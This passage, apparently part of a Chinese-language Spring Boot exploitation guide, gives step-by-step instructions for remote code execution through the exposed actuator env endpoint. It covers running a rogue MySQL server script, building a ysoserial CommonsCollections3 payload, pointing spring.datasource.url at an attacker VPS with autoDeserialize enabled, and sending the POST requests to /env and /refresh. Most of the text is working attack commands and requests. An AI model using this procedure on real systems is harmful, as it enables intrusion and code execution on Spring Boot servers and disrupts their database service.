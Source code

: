 **步骤二：架设恶意 rogue mysql server**

在自己控制的服务器上运行 [springboot-jdbc-deserialization-rce.py](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-jdbc-deserialization-rce.py) 脚本，并使用 [ysoserial](https://github.com/frohoff/ysoserial) 自定义要执行的命令：

```
java -jar ysoserial.jar CommonsCollections3 calc > payload.ser
```

在脚本**同目录下**生成 `payload.ser` 反序列化 payload 文件，供脚本使用。

**步骤三：设置 spring.datasource.url 属性**

> ⚠️ 修改此属性会暂时导致网站所有的正常数据库服务不可用，会对业务造成影响，请谨慎操作！

mysql-connector-java 5.x 版本设置**属性值**为：

```
jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```

mysql-connector-java 8.x 版本设置**属性值**为：

```
jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.datasource.url=对应属性值
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.datasource.url","value":"对应属性值"}
```

**步骤四：刷新配置**

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json
```
